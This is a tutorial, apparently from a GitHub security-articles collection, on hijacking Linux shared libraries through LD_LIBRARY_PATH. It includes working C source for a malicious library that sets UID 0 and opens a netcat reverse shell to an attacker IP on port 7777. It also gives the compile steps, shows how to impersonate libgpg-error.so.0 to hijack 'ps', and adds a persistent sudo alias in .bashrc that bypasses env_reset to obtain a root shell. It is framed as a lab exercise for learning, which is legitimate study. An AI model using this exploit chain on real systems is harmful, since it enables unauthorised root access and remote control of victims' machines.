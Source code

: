 # Hijcaking Shared Library
* * *
## Intoduction To Linux Shared Libraries

You can think of shared libraries as a collection of functions and data designed to be used by multiple programs. They are typically identified by the `.so` (shared object) extension and are linked dynamically at runtime, which not only reduces the size of executables but also boosts system efficiency. However, it's important to note that any changes to a shared library can impact all the programs that rely on it.
In the Linux ecosystem, shared libraries commonly use the Executable and Linkable Format (ELF), a standard file format for executables, object code, shared libraries, etc.

## The Search Path for Shared Libraries

When a Linux application is executed, it follows a specific sequence to locate its required libraries. Once it finds the required library, it stops searching and loads that library. Here’s how the search process works:
- The application first checks the directories listed in its Runtime Library Search Path (`RPATH`), which is embedded within the executable itself.
- Next, it looks in the directories specified in the `LD_LIBRARY_PATH` environment variable. This variable allows users to define custom library paths without modifying the system-wide configuration.
- Similar to RPATH, the Runtime Search Path (`RUNPATH`) is another directory list embedded in the executable but is checked after `LD_LIBRARY_PATH`.
- The application then checks the directories listed in /etc/ld.so.conf configuration file. 
- Finally, the search proceeds to the standard system library directories, which include `/lib`, `/lib64`, `/usr/lib`, `/usr/lib64`.


## Hijcak Shared Library: A Practical Guide

Looking at how Linux searches for shared libraries reveals a potential security risk: an attacker can manipulate this process by placing malicious versions of libraries in earlier locations, thus controlling the application's behavior. This technique, known as library hijacking, exploits the order in which Linux searches for shared libraries.

One common method involves controlling the `LD_LIBRARY_PATH` environment variable. This variable allows users to override the default library paths, often used for testing new library versions. However, it can also be exploited to inject malicious libraries, altering a program's behavior or even executing harmful code to escalate privileges.

Let’s dive into a practical example. We'll demonstrate how to hijack the execution of a program on a testing machine running Ubuntu by introducing a malicious library called `mylibrary`.

### Writing the Malicious Library

First, we need to create our malicious library. The following C code defines a library that opens a reverse shell when loaded

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

static void revShell() __attribute__((constructor));

void revShell() {
	setuid(0);
	setgid(0);
	printf("Reverse Shell via library hijacking... \n");
		const char *ncshell = "nc -e /bin/sh 192.168.171.1 7777 &";
	system(ncshell);
}
```

The first four lines consist of standard header files. Following this, `revShell()` is declared with the constructor attribute. A constructor is a function that executes when the library is first initialized to set up necessary code. After that, the `revShell()` constructor function is implemented. Within this function, we set the user ID (`UID`) and group ID (`GID`) to 0, providing root privileges if executed in a sudo context. Additionally, a message is printed to indicate the execution of the code. Finally, netcat is used to establish a reverse shell, connecting to the attacker's machine on port 7777.

### Compiling the Malicious Library

To compile our shared library, we use the following commands:

```sh
gcc -Wall -fPIC -c mylibrary.c -o mylibrary.o
```

- `-Wall`: Enables all compiler's warning messages.
- `-fPIC`: Generates position-independent code, suitable for shared libraries.
- `-c`: Compiles the code without linking.
- `-o`: Specifies the output file name.

### Create the Shared Library

After compliation is done, we need to create the shared library. This is done by using the `-shared` parameter to tell `gcc` we’re creating a shared library from our object file. We then specify an output file again, this time with the name `libhax.so`

```sh
gcc -shared mylibrary.o -o libmylibrary.so
```


### Identifying a Suitable Application

After creating our malicious shared library, the next step is to use it. Two considerations arise: firstly, selecting a program that the victim is likely to execute with elevated privileges, and secondly, ensuring that the hijacking of a shared library does not cause the program to crash. Remember, when we hijack a library, it will not be available to that program.

For this demonstartion we will use the `ps` command as our target. Users often run ps with sudo to display processes with elevated permissions, making it a suitable candidate for our attack.

Let's identify the libraries `ps` uses. We'll use the `ldd` command on the target machine to list these libraries. The output will include something like:

```sh
ldd /bin/ps
	....
	libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0 (0x00007ffff6614000)

```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/ldd_ps.png)

The `libgpg-error.so.0` library appears to be a good candidate for hijacking. It handles error reporting and is likely to be loaded but not frequently called during normal operation, minimizing the risk of breaking the program.

### Setting Up the Environment

Next, we set up the environment to hijack the `libgpg-error.so.0` library. We will rename our malicious `.so` file to match the target library and configure the `LD_LIBRARY_PATH` to point to the location of our malicious library:

```sh
cd /home/msbit/Labs/shared_lib/ld_lib_path
export LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path
cp libmylibrary.so libgpg-error.so.0
```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/cp.png)

### Executing the Target Program

Before running the ps command with our malicious library, we need to set up a netcat listener on the attacker's machine. This listener will wait for the reverse shell connection on port 7777.

```sh
rlwrap nc -lvp 7777
```

Now, with our environment prepared, we can execute the `ps` command on the target's machine. 

```sh
ps
ps: /home/msbit/Labs/shared_lib/ld_lib_path/libgpg-error.so.0: no version information available (required by /lib/x86_64-linux-gnu/libgcrypt.so.20)
Reverse Shell via library hijacking... 
   PID TTY          TIME CMD
  2023 pts/18   00:00:00 bash
  2824 pts/18   00:00:00 ps
  2826 pts/18   00:00:00 sh
```

On the attacker's terminal, you should now see the reverse shell connection. This output indicates that the shell is running with the privileges of the user who executed the `ps` command. 

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/userpriv.png)

However, if the user runs `ps` command with sudo, no reverse shell will be received at the attacker side, (why is that?).

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/no_reverse_shell.png)


## Gaining Root Shell

One of the challenges in exploiting the `LD_LIBRARY_PATH` environment variable is that most modern operating systems do not pass user environment variables when using `sudo`. This behavior is controlled by the `env_reset` setting in the `/etc/sudoers` file, which is enabled by default. When `env_reset` is active, running a command with `sudo` will not include `LD_LIBRARY_PATH` or other user-defined environment variables. This can limit the effectiveness of our library hijacking attempt, as the malicious library won't be loaded when the program is executed with elevated privileges.

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/sudoers.png)

One trick we can use to bypass this restriction is to create an alias for `sudo` that includes the `LD_LIBRARY_PATH` variable. This method can be applied temporarily in the current terminal session or by adding it to the `.bashrc` file.
- Temporary Alias:

```sh
alias sudo='sudo LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path'
```

- Persistent Alias in .bashrc

```sh
echo 'alias sudo="sudo LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path"' >> ~/.bashrc
source ~/.bashrc
```
By setting this alias, any command run with sudo will include our modified `LD_LIBRARY_PATH`.

Let's try again, before running the `ps` command with `sudo`, set up a netcat listener on the attacker's machine to capture the reverse shell. Now, execute the `ps` command with `sudo`

```sh
sudo ps
```

On the attacker's terminal, you should see the reverse shell connection. This indicates that the shell is now running with root privileges due to the `sudo` command

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/rootShell.png)


Happy Learning... <\br>
Mahmoud Jadaan

### Test Environment

- Victim
  - Ubuntu (16.04.7 LTS (Xenial Xerus), x86_64 GNU/Linux)
  - netcat-traditional/xenial,now 1.10-41 amd64
  - VIM - Vi IMproved 7.4
 
- Attacker
  - Kali GNU/Linux Rolling 6.6.15-2
